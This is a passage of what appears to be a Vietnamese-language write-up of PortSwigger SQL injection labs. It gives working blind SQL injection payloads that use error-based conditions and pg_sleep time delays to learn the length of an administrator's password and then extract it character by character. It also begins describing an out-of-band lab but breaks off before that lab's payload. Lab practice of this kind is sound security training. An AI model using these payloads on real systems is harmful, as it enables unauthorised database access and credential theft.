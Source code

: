   ```'OR (select case when substr(password,i,1) = '{c}'  then to_char(1/0) else 'a' end from users where username = 'administrator')='a' --```
      - payload test:
  
          '||(select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end ) --
- false thì chạy else còn true chạy then 

  - find password length :

          '||(select case when (username='administrator' and length(password) > i) then pg_sleep(10) else pg_sleep(-1) end from users) --

            or

          '||(select case when length(password) > i then pg_sleep(10) else pg_sleep(-1) end  from users where username = 'administrator') --

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/dd71f72e-3470-4f32-bc0b-f76fabc94288)

=> vì length > 19 => là kí tự nó sẽ 20 digits

 - payload solve:

         '||(select case when substring(password,i,1) = '{c}' then pg_sleep(10) else pg_sleep(-1) end  from users where username = 'administrator') --

+ ta sẽ dùng chức năng respond received trên columns => ta sẽ điều chỉnh 1 luồng để sử lí tiến trình cụ thể hơn

+ vì sleep 10 hơi lâu nên để sleep 5 => recevied > 5s

  ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/c32e179d-d07e-45a8-9832-337eccb36ad6)

=> solve lab 15

# Lab 16: Blind SQL injection with out-of-band interaction

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

+ step 1: Recon

  - ta có thông tin về đây là dạng outband sqli blind => giữa vào cheat sheet để solve
 
  - sử dụng brup collaborator để bắt dns lookup trên server
 
  - nơi xảy ra lỗ hổng nằm ở cookie track id

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/b52e817e-0be7-410d-bdc2-b863a1c25082)

=> auto check 
 
+ step 2: Exploit

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/a19ec7d9-2873-4e70-92c5-6ac985b454f6)

  ```
